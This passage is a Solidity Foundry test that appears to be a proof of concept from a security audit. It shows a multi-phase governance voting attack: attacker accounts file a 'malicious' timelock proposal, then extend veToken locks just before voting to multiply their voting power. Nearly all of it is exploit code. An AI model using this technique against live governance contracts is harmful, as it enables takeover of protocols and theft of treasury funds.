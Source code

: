 ```solidity 
            emit log_named_uint(
                string.concat("Account ", vm.toString(i), " initial voting power"),
                veToken.getVotingPower(attackerAccounts[i])
            );
        }
​
        emit log_string("\n=== Phase 2: Create Malicious Proposal ===");
        
        // Create proposal
        address[] memory targets = new address[](1);
        uint256[] memory values = new uint256[](1);
        bytes[] memory calldatas = new bytes[](1);
        targets[0] = address(timelock);
        values[0] = 0;
        calldatas[0] = abi.encodeWithSignature("maliciousAction()");
​
        vm.prank(attackerAccounts[0]);
        uint256 proposalId = governance.propose(
            targets,
            values,
            calldatas,
            "Malicious Proposal",
            IGovernance.ProposalType.TreasuryAction
        );
​
        emit log_string("\n=== Phase 3: Execute Voting Attack ===");
        
        // Move to voting period
        vm.warp(block.timestamp + governance.votingDelay() + 1);
​
        // First vote with attacker0's max power
        vm.prank(attackerAccounts[0]);
        governance.castVote(proposalId, true);
​
        (uint256 initialVotes,) = governance.getVotes(proposalId);
        emit log_named_uint("Initial votes", initialVotes);
​
        // Other accounts extend their locks to max duration before voting
        for(uint i = 1; i < attackerAccounts.length; i++) {
            vm.startPrank(attackerAccounts[i]);
            // Calculate extension needed (1460 - 365 = 1095 days)
            uint256 extensionDays = 1095 days;
            veToken.extend(extensionDays); // Extend by the difference to reach max duration
            governance.castVote(proposalId, true);
            vm.stopPrank();
​
            (uint256 currentVotes,) = governance.getVotes(proposalId);
            emit log_named_uint(
                string.concat("Votes after account ", vm.toString(i), " with max lock"),
                currentVotes
            );
        }
​
        emit log_string("\n=== Phase 4: Attack Results ===");
        
        // Get final vote counts
        (uint256 finalVotes,) = governance.getVotes(proposalId);
        
        emit log_named_uint("Initial votes", initialVotes);
        emit log_named_uint("Final votes", finalVotes);
        emit log_named_uint("Vote multiplier achieved", finalVotes / initialVotes);
​
        // Check quorum manipulation
```